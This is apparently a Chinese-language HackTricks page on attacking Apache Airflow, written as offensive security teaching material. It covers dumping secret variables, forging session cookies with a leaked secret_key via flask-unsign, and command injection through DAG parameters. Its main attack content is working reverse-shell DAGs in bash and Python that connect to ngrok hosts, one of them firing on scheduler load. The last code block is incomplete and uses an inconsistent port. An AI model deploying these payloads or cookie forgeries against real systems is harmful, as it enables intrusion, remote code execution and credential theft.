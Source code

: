 # Apache Airflow Security

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个 **编排和调度数据管道或工作流** 的平台。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流的过程。这些编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于众多应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序正常运行的基础。

基本上，Apache Airflow 将允许您 **在某些事情**（事件，cron）**发生时调度代码的执行**。

### 本地实验室

#### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 启动一个完整的 Apache Airflow Docker 环境。（如果您在 MacOS 上，请确保为 Docker 虚拟机分配至少 6GB 的内存）。

#### Minikube

一种简单的方法是 **使用 minikube 运行 apache airflow**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow 配置

Airflow 可能在其配置中存储 **敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

在开始攻击 Airflow 之前，您应该了解 **权限是如何工作的**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻击

#### Web 控制台枚举

如果您有 **访问 web 控制台** 的权限，您可能能够访问以下一些或全部信息：

* **变量**（自定义敏感信息可能存储在这里）
* **连接**（自定义敏感信息可能存储在这里）
* 在 `http://<airflow>/connection/list/` 中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在这里）
* 列出 **用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

#### 检索变量值

变量可以存储在 Airflow 中，以便 **DAG** 可以 **访问** 其值。这类似于其他平台的秘密。如果您有 **足够的权限**，可以在 GUI 中访问它们，地址为 `http://<airflow>/variable/list/`。\
Airflow 默认会在 GUI 中显示变量的值，但根据 [**这个**](https://marclamberti.com/blog/variables-with-apache-airflow/) 的说法，可以设置一个 **变量列表**，其 **值** 将在 **GUI** 中显示为 **星号**。

![](<../../.gitbook/assets/image (164).png>)

然而，这些 **值** 仍然可以通过 **CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、**API** 访问变量端点（需要激活 API），甚至 **GUI 本身** 来 **检索**！\
要从 GUI 访问这些值，只需 **选择您想访问的变量**，然后 **点击操作 -> 导出**。\
另一种方法是对 **隐藏值** 进行 **暴力破解**，使用 **搜索过滤** 直到获取到它：

![](<../../.gitbook/assets/image (152).png>)

#### 权限提升

如果 **`expose_config`** 配置设置为 **True**，则从 **用户角色** 及 **以上** 可以 **读取** **web 中的配置**。在此配置中，**`secret_key`** 出现，这意味着任何拥有此有效密钥的用户都可以 **创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 后门 (Airflow worker 中的 RCE)

如果您对 **DAG 保存的位置** 有 **写入权限**，您可以 **创建一个** 发送 **反向 shell** 的 **DAG**。\
请注意，这个反向 shell 将在 **airflow worker 容器** 内执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 后门 (Airflow 调度器中的 RCE)

如果您将某些内容设置为**在代码的根目录中执行**，在撰写本文时，它将在将其放入 DAG 文件夹后几秒钟内**由调度器执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 创建

如果你成功**攻陷了 DAG 集群中的一台机器**，你可以在 `dags/` 文件夹中创建新的 **DAG 脚本**，它们将会在 DAG 集群中的其余机器上**复制**。

#### DAG 代码注入

当你从 GUI 执行一个 DAG 时，你可以**传递参数**给它。\
因此，如果 DAG 编写不当，它可能会**容易受到命令注入的攻击。**\
这就是在这个 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

你需要知道的**开始寻找 DAG 中命令注入的方法**是**参数**通过代码**`dag_run.conf.get("param_name")`**进行**访问**。

此外，**变量**也可能出现相同的漏洞（请注意，拥有足够权限的情况下，你可以在 GUI 中**控制变量的值**）。变量通过以下方式**访问**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们被用在例如 bash 命令中，你可能会执行命令注入。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
